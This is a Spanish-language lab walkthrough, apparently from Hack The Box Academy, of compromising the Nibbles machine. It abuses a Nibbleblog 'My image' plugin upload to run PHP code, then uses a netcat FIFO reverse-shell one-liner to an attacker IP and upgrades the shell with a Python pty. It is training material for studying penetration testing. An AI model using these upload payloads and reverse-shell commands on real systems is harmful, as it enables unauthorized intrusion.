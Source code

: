 Ahora que hemos iniciado sesión en el portal de administración, debemos intentar convertir este acceso en ejecución de código y, en última instancia, obtener acceso de shell inverso al servidor web. Sabemos que un módulo Metasploit probablemente funcionará para esto, pero enumeremos el portal de administración para otras vías de ataque. Mirando un poco alrededor, vemos las siguientes páginas:

| Pagina | Contenido|
| -- | -- |
|`Publish`| hacer una nueva publicación, publicación de video, publicación de citas o nueva página. Podría ser Interesante. |
| `Comments`| no muestra comentarios publicados | 
| `Manage`| Nos permite administrar publicaciones, páginas y categorías. Podemos editar y eliminar categorías, no demasiado interesantes.|
| `Settings` | Desplazarse hacia abajo confirma que la versión vulnerable 4.0.3 está en uso. Hay varias configuraciones disponibles, pero ninguna nos parece valiosa. |
| `Themes` | Esto nos permite instalar un nuevo tema de una lista preseleccionada. |
| `Plugins` | Nos permite configurar, instalar o desinstalar complementos. El complemento `My image` nos permite cargar un archivo de imagen. ¿Se podría abusar de esto para cargar código `PHP` potencialmente? |

Intentar crear una nueva página e incrustar código o cargar archivos no parece ser el camino. Echemos un vistazo a la página de complementos.

![](https://academy.hackthebox.com/storage/modules/77/plugins.png)

Intentemos usar este complemento para cargar un fragmento de código `PHP` en lugar de una imagen. El siguiente fragmento se puede usar para probar la ejecución del código.

~~~
<?php system('id'); ?>
~~~

Guarde este código en un archivo y luego haga clic en el botón `Browse` y cárguelo.

![](https://academy.hackthebox.com/storage/modules/77/upload.png)

Recibimos un montón de errores, pero parece que el archivo puede haberse cargado.

~~~
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
~~~

Ahora tenemos que averiguar dónde se cargó el archivo si fue exitoso. Volviendo al directorio de resultados de fuerza bruta, recordamos el directorio `/content`. Debajo de esto, hay un directorio de `plugins` y otro subdirectorio para `my_image`. La ruta completa se encuentra en `http://<host>/nibbleblog/content/private/plugins/my_image/`. En este directorio, vemos dos archivos, `db.xml` e `image.php`, con una fecha de última modificación reciente, lo que significa que nuestra carga fue exitosa. Comprobemos y veamos si tenemos ejecución de comandos.

~~~
Juceco@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
~~~

¡lo hicimos! Parece que hemos ganado la ejecución remota de código en el servidor web y el servidor Apache se está ejecutando en el contexto de usuario de `nibbler`. Modifiquemos nuestro archivo PHP para obtener un shell inverso y comencemos a hurgar en el servidor.

Editemos nuestro archivo PHP local y volvamos a subirlo. Este comando debería darnos un shell inverso. Como se mencionó anteriormente en el Módulo, existen muchas hojas de trucos de shell inverso. Algunos excelentes son [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) y [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

Usemos el siguiente shell inverso de `Bash` de una sola línea y agréguelo a nuestro script `PHP`.

~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
~~~

Agregaremos nuestra dirección IP VPN `tun0` en el marcador de posición `<ATTACKING IP>` y un puerto de nuestra elección para `<LISTENING PORT>` para capturar el shell inverso en nuestro oyente `netcat`. Vea el script `PHP` editado a continuación.

~~~
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
~~~

Subimos de nuevo el archivo e iniciamos un `netcat` listener en nuestra terminal:

~~~
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
~~~

usamos cURL para página de la imagen nuevamente o navegamos hasta ella en `Firefox` en http:///nibbleblog/content/private/plugins/my_image/image.php para ejecutar el shell inverso.

~~~
Juceco@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
~~~

Además, tenemos una reverse shell. Antes de continuar con la enumeración adicional, actualicemos nuestro shell a un shell "más agradable" ya que el shell que capturamos no es un TTY completamente interactivo y los comandos específicos como `su` no funcionarán, no podemos usar editores de texto, tabulador no funciona, etc. Esta [publicación](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explica el problema con más detalle, así como una variedad de formas de actualizar a un TTY completamente interactivo. Para nuestros propósitos, usaremos una sola línea de `Python` para generar un pseudo-terminal para que los comandos como `su` y `sudo` funcionen como se discutió anteriormente en este módulo.


Code: `Bash`
~~~
python -c 'import pty; pty.spawn("/bin/bash")'
~~~

Pruebe las diversas técnicas para actualizar a un TTY completo y elija la que mejor se adapte a sus necesidades. ¡Nuestro primer intento falla porque parece que falta `Python2` en el sistema!

~~~
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
~~~

Sin embargo, tenemos `Python3`, que funciona para llevarnos a un shell más amigable escribiendo `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Navegando a `/home/nibbler`, encontramos la flag `user.txt` así como un archivo zip `personal.zip`.

~~~
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
~~~

